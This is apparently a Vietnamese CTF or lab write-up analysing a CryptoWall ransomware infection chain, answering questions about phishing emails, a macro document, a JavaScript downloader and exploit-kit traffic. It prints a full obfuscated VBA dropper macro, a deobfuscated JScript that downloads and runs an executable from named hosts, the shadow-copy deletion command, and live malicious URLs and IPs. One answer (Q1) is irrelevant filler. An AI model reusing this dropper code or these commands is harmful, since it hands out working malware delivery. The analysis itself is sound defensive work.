





### 1. Vòng đời lây nhiễm (The Kill-Chain) {#3487b0eb61a48048bb48f39256601b66}

- **Xâm nhập (Delivery):** CryptoWall thường sử dụng hai véc-tơ tấn công chính:
	- **Malspam:** Gửi các email lừa đảo (phishing) chứa tệp đính kèm độc hại. Chúng thường ngụy trang dưới dạng hóa đơn, biên lai (`.zip`, `.pdf` giả mạo, hoặc các file `.chm` - Compiled HTML Help).
	- **Exploit Kits (EK):** Lợi dụng các lỗ hổng trình duyệt (Flash, Java) thông qua các bộ công cụ như Angler hoặc Nuclear. Kịch bản này rất giống với cơ chế Drive-by Download mà chúng ta thường thấy khi mổ xẻ các gói tin mạng độc hại.
- **Thực thi và Ẩn mình (Execution & Persistence):** Khi xâm nhập thành công, nó tự sao chép vào thư mục `%APPDATA%` hoặc `%TEMP%` và tạo các khóa Registry (như `Run` hoặc `RunOnce`) để đảm bảo nó luôn khởi chạy cùng hệ điều hành. Nó cũng thường "tiêm" (inject) mã độc vào các tiến trình hợp lệ như `explorer.exe` hoặc `svchost.exe` để qua mặt hệ thống phòng thủ.
- **Kết nối C2 (Command & Control):** Trước khi bắt đầu mã hóa, nó bắt buộc phải liên lạc về máy chủ điều khiển để lấy khóa mã hóa công khai (Public Key). CryptoWall sử dụng các lớp mã hóa riêng biệt cho quá trình giao tiếp này để tránh bị các công cụ Network Forensics tóm gọn.
- **Mã hóa và Tiêu hủy đường lùi (Encryption & Impact):**
	- Sử dụng thuật toán mã hóa cực mạnh (thường là RSA-2048), biến các tệp tài liệu, hình ảnh, cơ sở dữ liệu thành dữ liệu vô nghĩa không thể đọc được.
	- **Hành vi đặc trưng:** Nó sẽ gọi lệnh `vssadmin.exe Delete Shadows /All /Quiet` để xóa toàn bộ các bản sao lưu Volume Shadow Copies của Windows. Đây là đòn chí mạng ngăn chặn nạn nhân khôi phục tệp miễn phí.
- **Tống tiền (Extortion):** Nó để lại các tệp văn bản hoặc HTML (như `HELP_DECRYPT.txt`) trong mọi thư mục bị mã hóa, hướng dẫn nạn nhân tải trình duyệt Tor và trả tiền chuộc bằng Bitcoin.

### 2. Sự tiến hóa qua các thế hệ {#3487b0eb61a48091b858d5ebfabc0ec5}


Sự nguy hiểm của CryptoWall nằm ở chỗ nó liên tục được nâng cấp để né tránh các nỗ lực phân tích:

- **CryptoWall 1.0 & 2.0:** Xây dựng nền tảng mã hóa cơ bản và tích hợp mạng ẩn danh Tor để che giấu máy chủ C2.
- **CryptoWall 3.0:** Bổ sung giao thức I2P (Invisible Internet Project) - một mạng ẩn danh khác phức tạp hơn Tor, khiến việc truy vết IP gốc của kẻ tấn công gần như bất khả thi.
- **CryptoWall 4.0:** Đây là một bản nâng cấp mang tính "khủng bố" tinh thần. Thay vì chỉ mã hóa nội dung tệp, nó mã hóa luôn cả **tên tệp tin** (ví dụ: `baocao_quy_1.docx` biến thành `12b8a.7c2`). Điều này khiến nạn nhân cực kỳ hoảng loạn vì họ thậm chí không biết mình vừa bị mất những dữ liệu quan trọng nào.

### 3. Dấu hiệu nhận biết (Indicators of Compromise) {#3487b0eb61a48082802dc68a8bc0a543}


Đối với lực lượng giám sát an ninh mạng, việc phát hiện sớm CryptoWall thường dựa trên các manh mối sau:

- Lưu lượng mạng DNS truy vấn tới các tên miền sinh ra bằng thuật toán ngẫu nhiên (DGA).
- Sự gia tăng đột biến về các hoạt động I/O trên ổ cứng do quá trình đọc/ghi mã hóa hàng loạt.
- Cảnh báo thực thi lệnh `vssadmin.exe` hoặc `bcdedit.exe` từ một tiến trình không phải của quản trị viên hệ thống.

## Câu hỏi {#3487b0eb61a480529742e2cb892dbc12}


### Q1 c42-MTA6-1022-UTC: What is the attachment file name? {#3487b0eb61a480d6a1f3d87da1162ec2}





A `src` file (or `src` directory) stands for **source**, containing the raw, human-readable programming code (e.g., .java, .cpp, .py) before it is compiled or interpreted into a runnable application


### Q2 c42-MTA6-1022-UTC: The attachment contains malware. When was the malware first submitted to virustotal? {#3487b0eb61a4809aa111fed5b17028c4}


2015-09-11 10:26:43


### Q3 c42-MTA6-1022-UTC: Provide the FQDN contacted by the malware? {#3487b0eb61a4800f9b9beff53db50bc7}





### Q4 c42-MTA6-1422-UTC: What was the malicious document's creation time? (one space between date and time). {#3487b0eb61a480ba8b68cb70f7491249}


2015-06-24 11:31


### Q5 c42-MTA6-1422-UTC: Which stream contains the macro? (provide stream number). {#3487b0eb61a480b9b632eca6e2d468ed}


3


Dùng oledump.py


### Q6 c42-MTA6-1422-UTC: What is the sha256 hash of the executable malware? {#3487b0eb61a480ab9735fac5a2574699}


```c++
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Sub Auto_Open()
     zGCwkKBGTOs
End Sub

Sub zGCwkKBGTOs()
     Dim ezbVRLGmmo As String
     Dim iqvhxHmFSdrrP As String
     Dim iYwihdJA As Integer
     Dim bvNUjgU As String
     Dim VBJeJNNj As Byte
     Dim dRZAVyCRqn As Paragraph
     Dim XhnzHZgleilRL As Long
     Dim CAMGDebZMD As Integer
     Dim splRmDLtFg As String
     Dim eOqQRgYctMzmuZ As String
     Dim dsuvHC As String
     Dim MniQXWEhfv As Boolean
     Dim QbhrXGT As Integer
     bvNUjgU = "zqnuhsi&H46&H55&H43&H4B2&H047&H44&H41&H54&H41&H21"
     splRmDLtFg = "exe"
     eOqQRgYctMzmuZ = "iaEhcYUCk" + "o"
     HHRSydvjwaq = "."
     ezbVRLGmmo = eOqQRgYctMzmuZ + HHRSydvjwaq + splRmDLtFg
     YqPyWrU
     iYwihdJA = FreeFile()

     AGRVOkemteQ

     Debug.Print ("After OnTime: " & Now)

     Dim opobUCTy As String
     Dim LyunJq As String
     Dim cBFXXhV As String
     Dim dtxmeZtrxOLted As String
     Dim XtibNFnRE As Document
     Set dEqXIBDNuKqF = CreateObject("Sc" + "riptContro" + "l")
     dEqXIBDNuKqF.Language = "VBS" + "cri" + "p" + "t"
     opobUCTy = "ActiveDocumen" + "t" + "."
     cBFXXhV = "Paragraph" + "s"
     LyunJq = opobUCTy + cBFXXhV
     Set VeZpOpVh = GetObject(, "word" + ".Applic" + "atio" + "n")
     On Error GoTo JFhYAolPD
     dEqXIBDNuKqF.AddObject "Obj", VeZpOpVh

     Dim FwKeQXNgqxMxvnL As Boolean
     FwKeQXNgqxMxvnL = False
     Dim DhvFHjK As Boolean
     DhvFHjK = True

JFhYAolPD:
     For Each dRZAVyCRqn In dEqXIBDNuKqF.Eval("Obj." & LyunJq)
          hPuJZIlGpcz (dRZAVyCRqn)
          iqvhxHmFSdrrP = dRZAVyCRqn.Range.Text
          Debug.Print ("After OnTime: " & Now)
          If (MniQXWEhfv = True) Then
               XhnzHZgleilRL = (37 - 36)
          Dim VCAMcIBwsA As Integer
          VCAMcIBwsA = (68 - 64)
               While (XhnzHZgleilRL < Len(iqvhxHmFSdrrP))
                    VBJeJNNj = Mid(iqvhxHmFSdrrP, XhnzHZgleilRL, VCAMcIBwsA)
                    Debug.Print ("After OnTime: " & Now)
                    Put #iYwihdJA, , VBJeJNNj
                    XhnzHZgleilRL = XhnzHZgleilRL + (7 - 3)
               Wend
          ElseIf (InStr((88 - 87), iqvhxHmFSdrrP, bvNUjgU) > (64 - 64) And Len(iqvhxHmFSdrrP) > (27 - 27)) Then
               MniQXWEhfv = DhvFHjK
          End If
          Next
     Debug.Print ("After OnTime: " & Now)
     If (FwKeQXNgqxMxvnL = True) Then
          MsgBox ("FUCK AV")
     Else
          Close #iYwihdJA
     End If
     HYUzMcPhknOwSHA (ezbVRLGmmo)
End Sub

Sub AutoOpen()
     Auto_Open
End Sub

Sub HYUzMcPhknOwSHA(ezbVRLGmmo As String)
     Dim dsuvHC As String
     Dim dphUNjFKvsin As Object
     Dim QbhrXGT As Integer
     dsuvHC = Environ("USERPROFIL" + "E")
     ChDrive (dsuvHC)
     ChDir (dsuvHC)

     Debug.Print ("After OnTime: " & Now)

     Set dphUNjFKvsin = VBA.CreateObject("WSc" + "ript" + ".She" + "l" + "l")
     On Error Resume Next
     dphUNjFKvsin.Run (ezbVRLGmmo)
     TdkFfShCkIHO
End Sub

Sub hPuJZIlGpcz(fVXCWogxUYsIi)
     DoEvents
End Sub

Sub AGRVOkemteQ()
     Dim splRmDLtFg As String
     Dim ezbVRLGmmo As String
     Dim eOqQRgYctMzmuZ As String
     Dim iYwihdJA As Integer
     Dim HHRSydvjwaq As String
     eOqQRgYctMzmuZ = "iaEhcYUCko"
     HHRSydvjwaq = "."
     splRmDLtFg = "exe"
     ezbVRLGmmo = eOqQRgYctMzmuZ + HHRSydvjwaq + splRmDLtFg
     iYwihdJA = FreeFile()
     Open ezbVRLGmmo For Binary As iYwihdJA
End Sub

Sub TdkFfShCkIHO()
     Word.ActiveDocument.Range.Select
     Selection.WholeStory
     Selection.Delete Unit:=wdCharacter, Count:=(53 - 52)
     Dim hnyvtVpsnYB As Word.Document
     Set hnyvtVpsnYB = ThisDocument
     hnyvtVpsnYB.Range.InsertParagraphAfter
     hnyvtVpsnYB.Range.InsertAfter "" + vbLf
End Sub

Sub YqPyWrU()
     dsuvHC = Environ("USERPRO" + "FIL" + "E")
     ChDrive (dsuvHC)
     ChDir (dsuvHC)
End Sub

Sub Workbook_Open()
     Auto_Open
End Sub
```


Các hàm `Auto_Open()`, `AutoOpen()`, và `Workbook_Open()` để bảo đảm rằng hàm lõi `zGCwkKBGTOs`  sẽ được kích hoạt khi mở


Kĩ thuật defense evasion và obfuscation:

- `WSc" + "ript" + ".She" + "l" + "l"` hoặc `"USERPRO" + "FIL" + "E"`.
- `XhnzHZgleilRL = (37 - 36)` , `VCAMcIBwsA = (68 - 64)`
- gọi trực tiếp `ActiveDocument.Paragraphs` trong VBA (rất dễ bị tóm bởi AMSI hoặc các công cụ như `olevba`), mã độc tạo một đối tượng `ScriptControl` chạy bằng ngôn ngữ VBScript để gọi gián tiếp. Điều này giúp qua mặt các rule kiểm tra hành vi tĩnh của VBA.

### Phân tích hàm `zGCwkKBGTOs`) {#3487b0eb61a4800fba43c9d2f6379a4c}

- **Thiết lập thư mục và tạo file:**
Hàm `YqPyWrU` sẽ chuyển thư mục làm việc hiện tại (Current Directory) về thư mục gốc của người dùng (`%USERPROFILE%`, thường là `C:\Users\<Username>`).
Hàm `AGRVOkemteQ` sẽ tạo một file trống có tên là **`iaEhcYUCko.exe`** tại thư mục đó và mở nó ở chế độ nhị phân (Binary) để chuẩn bị ghi dữ liệu.
- **Săn lùng Payload ẩn trong tài liệu:**
Macro sử dụng vòng lặp `For Each dRZAVyCRqn In dEqXIBDNuKqF.Eval("Obj." & LyunJq)` để duyệt qua từng đoạn văn (Paragraph) trong file Word.
Nó tìm kiếm một "cờ đánh dấu" (marker) cụ thể là chuỗi: `zqnuhsi&H46&H55&H43&H4B2&H047&H44&H41&H54&H41&H21`.
_Lưu ý: Nếu giải mã đoạn mã Hex_ _`&H...`_ _kia ra ASCII, bạn sẽ thấy nó có nghĩa là chữ "FUCK_DATA!"._
- **Trích xuất và Ghi (Extraction & Writing):**
Khi tìm thấy đoạn văn chứa cờ đánh dấu, biến cờ `MniQXWEhfv` bật sang `True`. Macro bắt đầu đọc các chuỗi ký tự tiếp theo trong văn bản (chính là mã nhị phân của file `.exe` đã được chuyển đổi thành chuỗi văn bản - text, thường là mã Hex).
Nó dùng lệnh `Mid` để cắt từng 4 ký tự một (`VCAMcIBwsA = 4`) và dùng lệnh `Put` để ghi trực tiếp các byte này vào file `iaEhcYUCko.exe`.

### Kích nổ và Xóa dấu vết (Anti-Forensics) {#3487b0eb61a480c9836af71b741ddde6}


Sau khi toàn bộ dữ liệu đã được ghi ra thành file `.exe` hoàn chỉnh, macro tiến hành các bước cuối cùng:

- **Kích nổ (Execution):** Hàm `HYUzMcPhknOwSHA` khởi tạo `WScript.Shell` và chạy lệnh `dphUNjFKvsin.Run (ezbVRLGmmo)`. Tại thời điểm này, tiến trình `iaEhcYUCko.exe` chính thức chạy ngầm trên máy nạn nhân.
- **Tiêu hủy bằng chứng (Anti-Forensics):**
Hàm `TdkFfShCkIHO` sẽ được gọi. Nó bôi đen toàn bộ nội dung của file Word (`Selection.WholeStory`) và xóa sạch sành sanh (`Selection.Delete`), sau đó chèn một dòng trống (`vbLf`).
Mục đích là khi nạn nhân nhìn vào màn hình, họ chỉ thấy một trang Word trắng tinh, nhưng mã độc thì đã nằm gọn trong ổ cứng và đang chạy. Phân tích viên nếu thu thập mẫu tài liệu muộn cũng sẽ chỉ thấy một trang giấy trắng, mất đi phần payload mã hex dùng để dịch ngược.

### Trích xuất IOCs (Indicators of Compromise) {#3487b0eb61a48081948ae238c5133c5c}

- **File Path:** `%USERPROFILE%\iaEhcYUCko.exe`
- **Tiến trình sinh ra (Process Lineage):** `WINWORD.EXE` -&gt; `cmd.exe` (hoặc `wscript.exe`) -&gt; `iaEhcYUCko.exe`
- **VBA Keywords khả nghi:** `ScriptControl`, `Put #`, `FreeFile`, `WScript.Shell`, `.Delete Unit:=wdCharacter`

Sau khi mở file doc thì thấy mã độc ở trên cùng với payload ở dưới





Ta copy mã độc ra và dùng cyberchef để chuyển thành exe


09cce2a039bf72e9c9896e475556563c00c467dc59d2535b0a0343d6741f9921


### Q7 c42-MTA6-1557-UTC: What is the full URL of the fake login page? {#3487b0eb61a480d1bf95c386239e808a}


http://www.smkind.co.za/Images/Buttons/13v.php


### Q8 c42-MTA6-1839-UTC: How many domains are present in the JS file? {#3487b0eb61a4808bbb11f1aab91d793e}


Email 4 có file America_Airlines_Ticket_0000321424.doc.js


Dùng AI hỗ trợ


```c++
var str = "5550565E07080B1100090110160D071749010516081D050707011717241605070F17140507014A070B09";

function dl(fr) {
    // 1. Danh sách các máy chủ C2/Payload
    var b = "ihaveavoice2.com laterrazzafiorita.it idsecurednow.com".split(" ");
    
    // 2. Khởi tạo đối tượng WSH và tạo đường dẫn file ngẫu nhiên
    var ws = new ActiveXObject("WScript.Shell");
    // Sử dụng Math.random() để tạo tên file ngẫu nhiên (VD: C:\Users\Admin\AppData\Local\Temp\12345678.exe)
    var fn = ws.ExpandEnvironmentStrings("%TEMP%") + String.fromCharCode(92) + Math.round(Math.random() * 100000000) + ".exe";
    
    var xo = new ActiveXObject("MSXML2.XMLHTTP");
    var xa = new ActiveXObject("ADODB.Stream");
    var dn = 0;
    
    // 3. Vòng lặp tải payload
    for (var i = 0; i < b.length; i++) {
        try {
            // Gửi request GET tải mã độc
            xo.open("GET", "http://" + b[i] + "/document.php?rnd=" + fr + "&id=" + str, false);
            xo.send();
            
            // Kiểm tra kết nối thành công (Status 200)
            if (xo.readyState == 4 && xo.status == 200) {
                xa.open();
                xa.type = 1; // adTypeBinary
                xa.write(xo.responseBody);
                
                // Kiểm tra dung lượng file tải về lớn hơn 5000 bytes (5KB)
                if (xa.size > 5000) {
                    dn = 1;
                    xa.position = 0;
                    xa.saveToFile(fn, 2); // Lưu đè nếu đã tồn tại
                    
                    try {
                        // Kích hoạt Payload
                        ws.Run(fn, 1, 0);
                    } catch (er) {};
                }
                xa.close();
            }
            if (dn == 1) break;
        } catch (er) {};
    }
}

// 4. Kích hoạt hàm với tham số ngẫu nhiên
dl(682461);
```


Dễ dàng thấy có 3 domain


### Q9 c42-MTA6-1839-UTC: The JS code is checking for a specific HTTP response code. What is the response code being checked? {#3487b0eb61a4801798bbd4372c1ee638}


200


### Q10 The victim received multiple emails and opened only one of them. Which one did he open? (provide the full eml file name). {#3487b0eb61a48073846df98fb19cef63}





File mã hóa có hash trùng với file exe được tạo ra trong file Patricia_Daniel_resume.doc 


→ c42-MTA6-1422-UTC.eml


| 104.28.9.93 [[www.prideorganizer.com.cdn.cloudflare.net](http://www.prideorganizer.com.cdn.cloudflare.net/)] [[www.prideorganizer.com](http://www.prideorganizer.com/)]                        | 192.168.137.56 [Franklion-PC] [FRANKLION-PC] (Windows) |   |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------ | - |
| 192.168.137.56                                                                                                                                                                                 | 204.79.197.200 bing                                    |   |
|                                                                                                                                                                                                | 216.58.216.67 google                                   |   |
|                                                                                                                                                                                                | 216.245.212.78 [randt.smittysautomart.org]             |   |
|                                                                                                                                                                                                | 216.58.216.78 google                                   |   |
| 31.13.74.52 [[scontent-a.cdninstagram.com](http://scontent-a.cdninstagram.com/)] [[scontent-b.cdninstagram.com](http://scontent-b.cdninstagram.com/)]                                          | 192.168.137.56                                         |   |
| 67.222.30.115 [[mergersandinquisitions.com](http://mergersandinquisitions.com/)] [[www.mergersandinquisitions.com](http://www.mergersandinquisitions.com/)]                                    |                                                        |   |
| 128.177.96.56 akamai                                                                                                                                                                           |                                                        |   |
| 69.49.96.13 [[altmangc.com](http://altmangc.com/)]                                                                                                                                             |                                                        |   |
| 23.235.44.249 [[fallback.global-ssl.fastly.net](http://fallback.global-ssl.fastly.net/)] [[global-ssl.fastly.net](http://global-ssl.fastly.net/)] [[fast.wistia.com](http://fast.wistia.com/)] |                                                        |   |
| 31.13.74.1 facebook                                                                                                                                                                            |                                                        |   |


### Q11 What is the IP address of the victim machine? {#3487b0eb61a480b09be9f55adc258012}


192.168.137.56


### Q12 What is the name of the exploit kit used to deliver the malware? (one word). {#3487b0eb61a480c695d3dd96289da302}


Angler tìm hash là ra


### Q13 Which IP address served the exploit? {#3487b0eb61a480149828ecbe43b54466}


216.245.212.78


### Q14 What is the FQDN of the compromised website that redirected the victim to the attacker's server hosting the Exploit Kit? {#3487b0eb61a48013b168fef8338f5cab}





[prideorganizer.com](http://prideorganizer.com/)

